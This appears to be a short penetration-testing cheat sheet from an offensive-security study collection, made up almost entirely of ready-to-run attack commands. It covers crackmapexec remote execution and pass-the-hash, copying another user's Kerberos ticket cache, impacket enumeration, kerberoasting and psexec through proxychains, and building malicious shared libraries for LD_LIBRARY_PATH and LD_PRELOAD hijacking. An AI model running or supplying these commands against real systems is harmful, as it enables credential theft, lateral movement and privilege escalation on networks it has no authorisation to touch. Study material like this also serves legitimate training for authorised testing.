 Powershell remoting

```shell
crackmapexec winrm -d domain.com -u Administrator -p 'pass123' -x "whoami" 192.168.1.1
```

Pass the hash

```shell
crackmapexec smb 192.168.1.1 -d domain.com -u admin -H 11111111111111111111111111 -X dir
```

Use keytab of user

```shell
sudo cp /tmp/krb5cc_607000500_3aeIA5 /tmp/krb5cc_minenow
sudo chown user:user /tmp/krb5cc_minenow
ls -al /tmp/krb5cc_minenow
kdestroy
klist
export KRB5CCNAME=/tmp/krb5cc_minenow
klist
```

Use keytab with impacket

```shell
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.120.5 DOMAIN.COM/Administrator
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.120.5 DOMAIN.COM/Administrator
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.DOMAIN.COM -k -no-pass
```

---

## Linux libraries

---

Compile lib LD\_LIBRARY\_PATH

```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -o libhax.so hax.o
```

with map

```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 hax.o
```

Compile lib LD\_PRELOAD

```shell
gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o preload.c
gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
export LD_PRELOAD=/home/offsec/evil_geteuid.so
cp /etc/passwd /tmp/testpasswd
```
